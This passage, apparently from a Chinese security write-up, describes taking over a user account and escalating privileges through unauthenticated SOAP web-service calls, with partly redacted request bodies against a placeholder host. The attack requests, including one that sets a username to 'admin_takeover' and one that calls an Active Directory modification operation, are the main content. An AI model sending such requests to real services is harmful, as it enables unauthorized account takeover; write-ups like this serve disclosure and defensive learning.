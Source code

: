 ```
<web:SetUserName>
  <id***e>999</id***e>
  <s***e>admin_takeover</s**e>
  <tokenWebLogon></tokenWebLogon>
</web:ImpostaNomeUtente>
```

  
再次确认成功。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iaASKxS11kaR4rCIXQnMOxLIs9MxuvRwHa8yMlh8YGqo0r5pcwu3I8ejAickab5ndlNPKX0yib9Ff21IVibrQKSTeA/640?wx_fmt=png&from=appmsg "")  
  
  
现在，我完全控制了一个用户账户，拥有系统中有效的用户名和邮箱地址，且全程无需任何形式的认证。  
  
  
  
06  
  
步骤五：通过Active Directory操作实现权限提升  
  
安全小白团  
  
  
拥有有效用户后，我们尝试提升其权限。在WSDL中发现了几个可能有用的操作：  
  

```
Modi***ActiveDirectory
SynchronizeSID
SetProfessionalFunctions
```

  
1. ModificaInActiveDirectory  
  
  
此方法似乎用于在AD中创建用户，带有***Crea***=true标志。我针对用户ID（999）测试并收到确认。  
  

```
POST /**/**/** HTTP/1.1
Host: target.com
Content-Type: text/xml; charset=utf-8
Content-Length: 397
<?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?>
<soapenv:Envelope xmlns:soapenv=&#34;http://schemas.xmlsoap.org/soap/envelope/&#34; xmlns:web=&#34;http://**.**/&#34;>
  <soapenv:Header/>
  <soapenv:Body>
    <web:Mo***ActiveDirectory>
  <id**>999</id**>
  <**Cr**>true</**bC**>
  <tokenWebLogon></tokenWebLogon>
</web:Mo***ActiveDirectory>
  </soapenv:Body>
</soapenv:Envelope>
```

  